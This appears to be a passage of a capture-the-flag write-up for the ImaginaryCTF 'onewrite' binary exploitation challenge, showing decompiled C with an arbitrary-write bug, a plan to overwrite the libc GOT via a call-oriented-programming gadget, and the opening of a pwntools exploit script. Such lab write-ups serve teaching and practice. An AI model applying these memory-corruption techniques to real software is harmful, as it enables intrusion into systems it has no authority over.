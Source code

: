 ```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char *s; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  printf("%p\n> ", &printf); 
  __isoc99_scanf("%p%*c", &s); // <-----------where
  fgets(s, 0x300, stdin); // <--------------what
  puts("bye");
  return v6 - __readfsqword(0x28u);
}
```

When we try to overwrite the libc GOT, it crashes when `strlen` is called in `puts`. At this point, we still have a pointer to our payload at `rsp+0x48`, so we use this to construct the COP.

We decided to use this gadget. `0x00166b4a: mov rax, [rsp+0x48]; mov rdi, [rax]; mov rax, [rdi+0x38]; call qword ptr [rax+0x18];`

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './vuln'
HOST = 'onewrite.chal.imaginaryctf.org'
PORT =  1337

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

r = start()
if args.D:
    debug(r, [])
if args.R:
    r.recvuntil(b'\n')

```